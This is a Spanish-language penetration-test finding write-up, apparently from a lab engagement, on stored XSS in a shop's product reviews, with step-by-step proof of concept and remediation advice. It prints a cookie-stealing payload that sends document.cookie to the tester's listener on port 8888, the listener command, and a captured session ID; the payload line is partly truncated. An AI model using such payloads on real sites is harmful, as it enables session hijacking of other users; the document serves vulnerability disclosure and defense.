



# 💉 F-003 — XSS almacenado en reviews de producto

   

> [!IMPORTANT]
> El sistema de reviews de producto no sanea el HTML introducido por el usuario. Al ser **almacenado**, el payload se dispara para cualquiera que visite la ficha del producto — incluido un administrador — sin necesidad de enviarle ningún enlace. PoC de robo de sesión completado de punta a punta.

## 📖 Contexto

La ficha de producto (`product.php?id=<producto>`) incluye una sección de "Guest reviews" donde cualquier usuario puede dejar un comentario. Al probar con un payload HTML simple en el campo de review del producto `wl-boardshort-reef`, el resultado se renderizó como HTML real en vez de como texto plano.

## 🔬 Explotación paso a paso

1. Insertar el payload `<u>hola</u>` como texto de una review.
2. Visitar la ficha de producto y observar el resultado:



La review del usuario `prueba` muestra "Hola" **subrayado** — el payload se interpretó como HTML, junto a otra review legítima de `marco.rossi` que confirma cuál es el formato normal esperado (texto plano).

3. Confirmar ejecución real de JavaScript, no solo renderizado de etiquetas de formato — se insertó `alert("stored xss")` en una review, y se disparó al cargar la ficha del producto:



4. Subir la apuesta a una PoC de robo de sesión real. Se montó un listener HTTP propio y se insertó el payload de exfiltración como review:

```bash
python3 -m http.server 8888
```

```html
:8888/?c='+document.cookie)">
```

5. Al recargar la ficha del producto, el listener recibe la cookie de sesión en texto plano:



```
GET /?c=PHPSESSID=40ko1d8ed8cje727c6n3j207p6 HTTP/1.1
```

## 💥 Impacto

> [!CAUTION]
> Secuestro de sesión confirmado de punta a punta: la cookie `PHPSESSID` no tiene `HttpOnly` ([F-001](F-001-cookie-sesion-sin-atributos.md)), así que es accesible vía `document.cookie`, y este XSS almacenado permite exfiltrarla a cualquiera que visite la ficha del producto — incluido un administrador.

Al ser **almacenado** (no reflejado), el payload se ejecuta para **cualquier usuario que visite esa ficha de producto**, sin necesidad de enviarle un enlace. Combinado con [F-010](F-010-csrf-envio-reviews.md) (CSRF en el envío de reviews), ni siquiera hace falta cuenta propia en PenguinWave para plantarlo.

## 🛡️ Remediación

- Escapar/sanitizar el HTML de las reviews en la salida (`htmlspecialchars()` en PHP, o una política allow-list tipo DOMPurify si se quiere permitir formato limitado).
- Añadir cabecera `Content-Security-Policy` como defensa en profundidad, para limitar el impacto aunque se cuele un payload.

## Hallazgos relacionados

- [F-001 — Cookie de sesión sin atributos de seguridad](F-001-cookie-sesion-sin-atributos.md): sin `HttpOnly`, este XSS se convierte en robo de sesión real.
- [F-004 — XSS reflejado en buscador](F-004-xss-reflejado-buscador.md): mismo impacto, vector reflejado en vez de almacenado.
- [F-008 — Reviews ilimitadas](F-008-reviews-ilimitadas-rating-bombing.md): sin límite de reviews, el payload puede inundar la página de producto.
- [F-010 — CSRF en envío de reviews](F-010-csrf-envio-reviews.md): permite plantar este XSS en nombre de otro usuario, sin cuenta propia del atacante.

---
⬅ [Volver al índice de writeups](README.md) · [README principal](../README.md) · [Informe técnico (PDF)](../docs/informe-BigShop.pdf)
